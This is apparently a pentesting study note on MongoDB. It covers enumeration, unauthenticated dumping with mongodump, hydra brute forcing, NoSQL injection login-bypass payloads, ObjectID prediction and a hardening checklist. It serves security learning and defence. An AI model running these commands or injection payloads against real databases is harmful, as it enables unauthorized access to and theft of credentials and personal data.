

# 14 - MongoDB (Ports 27017-27018) Pentesting

## 1. Executive Summary

MongoDB is a document (NoSQL) database on **TCP 27017** (shards/configs on 27018/27019). Its historic sin: shipping bound to all interfaces with **no authentication**, leading to mass internet breaches and ransom wipes. Attack surface: unauthenticated access, weak creds, **NoSQL injection** in apps, predictable ObjectIDs, and data exfiltration. An exposed instance = instant full database read/write.

## 2. Protocol Overview

Binary wire protocol (BSON documents). Auth is optional and off by default in old configs. Data organized as databases → collections → documents. ObjectIDs embed a timestamp + counter (partially predictable).

## 3. Enumeration

```bash
nmap -sV --script "mongo* and default" -p27017 <IP>
nmap --script mongodb-brute -p27017 <IP>

# Connect (no auth)
mongosh "mongodb://<IP>:27017"
mongo <IP>:27017
```
Inside:
```javascript
db.adminCommand({listDatabases:1})
show dbs
use <db>; show collections
db.<coll>.find().pretty()
db.adminCommand({getCmdLineOpts:1})   // config, sometimes creds
```

## 4. Exploitation

### 4.1 Unauthenticated Access
If `show dbs` works without creds, read/dump everything:
```bash
mongodump --host <IP> --port 27017 --out loot/
```

### 4.2 Credential Brute Force
```bash
nmap --script mongodb-brute -p27017 <IP>
hydra -L users.txt -P pass.txt mongodb://<IP>
```

### 4.3 NoSQL Injection (app layer)
Login bypass via operator injection:
```json
{"user":"admin","pass":{"$ne":null}}
{"user":{"$gt":""},"pass":{"$gt":""}}
```
See **[[NoSQL Injection]]**.

### 4.4 Predictable ObjectIDs
Given one ObjectID, generate likely neighbors to access other records (IDOR-style):
```bash
mongo-objectid-predict <known_id>
```

### 4.5 MongoBleed (CVE-2025-14847)
Crafted `OP_COMPRESSED` frames with oversized declared `uncompressedSize` force heap over-allocation, disclosing stale memory.

## 5. Mermaid Attack Flow


## 6. Post-Exploitation
- Dumped collections hold credentials, tokens, PII.
- Write access → tamper data, plant admin user in the app.

## 7. Defense & Hardening
1. Enable authentication + RBAC; never bind to 0.0.0.0 unauthenticated.
2. `bindIp` to internal only; TLS; firewall 27017–27019.
3. Validate/cast app input types (defeat `$ne`/`$gt` injection).
4. Patch (MongoBleed and others).

## 8. Chaining Opportunities
- App NoSQL injection → auth bypass → data theft.
- Looted creds → lateral reuse.

## 9. Related Notes
- [[17 - MongoDB — No Auth, Exposed Port]]
- [[16 - CouchDB (Port 5984) Pentesting]]
- [[15 - Redis (Port 6379) Pentesting]]

## 10. Tools
`mongosh`/`mongo`, `mongodump`, `nmap` mongo*, `mongo-objectid-predict`, `nosqlmap`.
